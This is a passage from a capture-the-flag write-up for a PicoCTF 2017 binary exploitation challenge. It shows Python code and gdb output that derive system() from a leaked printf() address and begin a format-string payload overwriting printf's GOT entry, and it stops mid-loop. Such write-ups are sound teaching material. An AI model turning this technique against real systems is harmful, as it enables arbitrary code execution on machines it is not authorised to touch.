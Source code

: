 First we import the struct library again and sys to take command line arguments.

```Python
import sys
import struct
```

Then we get the address of ```printf()``` as a hex value from command line args and calculate the address of ```system()``` with our known offset.

```Python
# input printf addr as arg 1
printf = int(sys.argv[1], 16)

# calc system addr from known prinf addr (0xf860 is magical constant from shell2017.picoctf.com)
system = printf - 0xf860
```

Note: the offset can be found in gdb with the assistance of python as a calculator by doing the following:

```
$ gdb console -q
Reading symbols from console...(no debugging symbols found)...done.
(gdb) r log
Starting program: /home/robbie/Documents/CTF/PicoCTF2017/binary_exploitation/level3/config_console/console log
Config action: ^C
Program received signal SIGINT, Interrupt.
0x00007ffff7b0cba0 in __read_nocancel ()
    at ../sysdeps/unix/syscall-template.S:81
81      ../sysdeps/unix/syscall-template.S: No such file or directory.
(gdb) p system
$1 = {<text variable, no debug info>} 0x7ffff7a72490 <__libc_system>
(gdb) p printf
$2 = {<text variable, no debug info>} 0x7ffff7a81cf0 <__printf>
(gdb) q
```

Now for a quick calculation which shows us that ```system()``` is 0xf860 behind ```printf()```; thus, we will subtract the positive value that results from the leaked address of ```printf()```.

```
$ python
Python 2.7.9 (default, Jun 29 2016, 13:08:31)
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(0x7ffff7a81cf0 - 0x7ffff7a72490)
'0xf860'
>>>
```

Then we create a format string which performs 8 writes. Each one writes the least significant byte of the string's length to a portion of the GOT entry for ```printf()``` to build the address of ```system()``` at that location. 

```Python
fmt_str = "\ne "
count = 0x0
add = 0x0
for i in range(0, 8, 1):
    # get byte from system addr
    byte = (system >> (8 * i)) % 256
    # calc num chars to add to str
    add = byte - count % 256
    if add <= 0:
        add += 256
    count += add
    # append to format str (51 is magic number from input.py script)
```